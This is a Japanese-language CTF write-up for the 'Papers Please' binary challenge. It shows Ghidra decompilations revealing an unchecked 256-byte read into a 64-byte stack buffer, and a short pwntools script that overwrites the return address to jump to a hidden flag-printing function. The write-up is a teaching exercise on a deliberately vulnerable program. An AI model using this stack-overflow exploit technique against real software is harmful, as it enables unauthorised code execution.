

# H7CTF - Papers Please
## 問題

### 説明



### 配布ファイル
```zsh
❯ ls
README.txt  checkpoint  ld-linux-x86-64.so.2  libc.so.6
```

### 実行結果
```
❯ ./checkpoint
=== Sparrow Freight border checkpoint ===
State your name for the log:
aaaa
Access denied, aaaa
. Turn back.
```

## 解法
### 要約
ソースコードは添付されていないのでデコンパイラかobjdumpで解析必須.
main関数からは呼び出されていないflagを表示する関数,`grant_access`関数が存在.
SSPとPIEがともに無効かつ,read関数が64bytesの配列に対し256bytes入力を受け付けるため,Buffer Overflowでreturn addressを書き換え。
### Ghidraでの解析結果

#### main
```c
undefined8 main(void)

{
  setvbuf(stdout,NULL,2,0);
  checkpoint();
  return 0;
}
```

#### checkpoint
`checkpoint`関数のローカル変数はundefined1型(1byte)長さ64の配列のみ。

```c
void checkpoint(void)

{
  undefined1 local_48 [64];
  
  puts("=== Sparrow Freight border checkpoint ===");
  puts("State your name for the log:");
  read(0,local_48,0x100);
  printf("Access denied, %s. Turn back.\n",local_48);
  return;
}
```

#### grant_access
```c
void grant_access(void)

{
  char local_68 [88];
  FILE *local_10;
  
  local_10 = (FILE *)FUN_00401120("/flag",&DAT_00402008);
  if (local_10 == NULL) {
    puts("[!] flag file missing - tell an admin");
  }
  else {
    fgets(local_68,0x50,local_10);
    fclose(local_10);
    printf("ACCESS GRANTED: %s\n",local_68);
    fflush(stdout);
  }
  return;
}
```
### solve.py
```python
win = 0x401216

def main():
    r = conn()

    payload = b"A" * 64
    payload += p64(0)
    payload += p64(win)

    r.recvline()
    r.sendline(payload)

    r.interactive()

```